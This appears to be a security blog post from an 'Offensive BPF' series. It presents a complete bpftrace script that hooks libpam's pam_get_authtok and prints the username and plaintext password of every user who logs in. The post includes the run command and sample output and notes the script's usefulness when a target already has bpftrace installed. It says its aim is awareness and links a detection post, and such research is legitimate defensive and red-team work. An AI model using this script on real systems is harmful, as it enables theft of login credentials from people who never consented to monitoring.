 ```yaml
---
title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
date: 2022-07-10T20:00:13-07:00
draft: true
tags: [
        "pentest", "red","research","ebpf"
    ]

twitter:
  card: "summary_large_image"
  site: "@wunderwuzzi23"
  creator: "@wunderwuzzi23"
  title: "Offensive BPF: Using bpftrace to sniff PAM logon passwords"
  description:  "Using eBPF in offensive security settings and mitigations"
  image: "https://embracethered.com/blog/images/2021/obpf.png"

---
```


This post is part of a series about **Offensive BPF**. Click the ["ebpf"](/blog/tags/ebpf) tag to see all related posts.

![Offensive BPF](/blog/images/2021/offensive-bpf.png)

It has been a while that we posted something in the ["Offensive BPF"](/blog/tags/ebpf) series. But recently there have been a couple of new cool ebpf based tools, such as [TripleCross](https://github.com/h3xduck/TripleCross), [boopkit](https://github.com/kris-nova/boopkit) and [pamspy](https://github.com/citronneur/pamspy). 

So, I thought it be quite fitting to do another post in the Offensive BPF series to keep raising awareness.


# Let's sniff PAM again - pamsnoop.bt

A few weeks back we discussed a [backdoor PAM module](/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/) to grab `authtok` tokens (e.g. SSH passwords) when someone logs on to a machine. In this post we will build an eBPF program using `bpftrace` to do the same. Kudos for the idea using eBPF go to [citronneur](https://github.com/citronneur/pamspy).


The short `bpftrace` script we are discussing is [here](https://github.com/wunderwuzzi23/Offensive-BPF/blob/main/bpftrace/pamsnoop.bt).

Let's walk through the details.

## Declaring the stub pam_handle struct

The  first step is to make sure we have the right data structure available. `pam_private.h` is [the header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h) in the Linux source. 

Technically you can  include the header file directly, but it might not be available if you trying to "live off the land" during a Red Team exercise. The `filler` is a bit of a hack, but it works quite well.

```
struct partial_pam_handle {
      char *filler[6];
      char *user;
};
```

Next, we create a `BEGIN` section to just show some information on the Console

```
BEGIN 
{ 
      printf("Welcome to Offensive BPF. Sniffing PAM authentications...");
      printf("Ctrl-C to exit.\n\n");
}
```

## Hooking the pam_get_authtok function

Now we create the core of the bpftrace program by hooking the `pam_getauthtok` call, reading the username and the password into a variable and printing them out once the function returns. 

```
uprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok 
{
      @user[tid] = ((struct partial_pam_handle *)arg0)->user;
      @authtok[tid] =  arg2;
}
    
uretprobe:/lib/x86_64-linux-gnu/libpam.so.0:pam_get_authtok 
/@user[tid]/ 
{
  
      printf("Program: %s, Username: %s, AuthTok: %s\n", 
             comm, //process
             str(@user[tid]),  
             str(*@authtok[tid])); 
             
      delete(@user[tid]);
      delete(@authtok[tid]);
}
```

**Important:** If you have trouble understanding why there is a `uprobe` and a `uretprobe` go back in the ["Offensive BPF Series"](/blog/tags/ebpf) and to read up on how bpf programs are structured. 

Also, recall that `/ @user[tid] /` is the syntax to apply a filter.

## Running pamsnoop.bt

Run the script with `sudo bpftrace pamsnoop.bt`.

```
hacker@commodore:~$ sudo bpftrace tracepam.bt 
Attaching 3 probes...
Welcome to Offensive BPF. Sniffing PAM authentications...Ctrl-C to exit.

```

Now, whenever someone logs on to the machine you will see username and authentication token:

![pamsnoop](/blog/images/2022/ebpf.pam.png)

Quite useful when running across infrastructure that has `bpftrace` already installed.


# Conclusion

In this post we looked at more advanced `bpftrace` usage scenarios that adversaries can leverage and that defenders not to start being aware of. 

As a reminder, there is a defender/detection post we did in the past, located [here](/posts/2021/offensive-bpf-detections-initial-ideas/).


Cheers.


# References

* [pam_private header file](https://github.com/linux-pam/linux-pam/blob/master/libpam/pam_private.h)
* [TripleCross](https://github.com/h3xduck/TripleCross) 
* [boopkit](https://github.com/kris-nova/boopkit) 
* [pamspy](https://github.com/citronneur/pamspy)
* [Offensive BPF Detection Ideas](/posts/2021/offensive-bpf-detections-initial-ideas/)

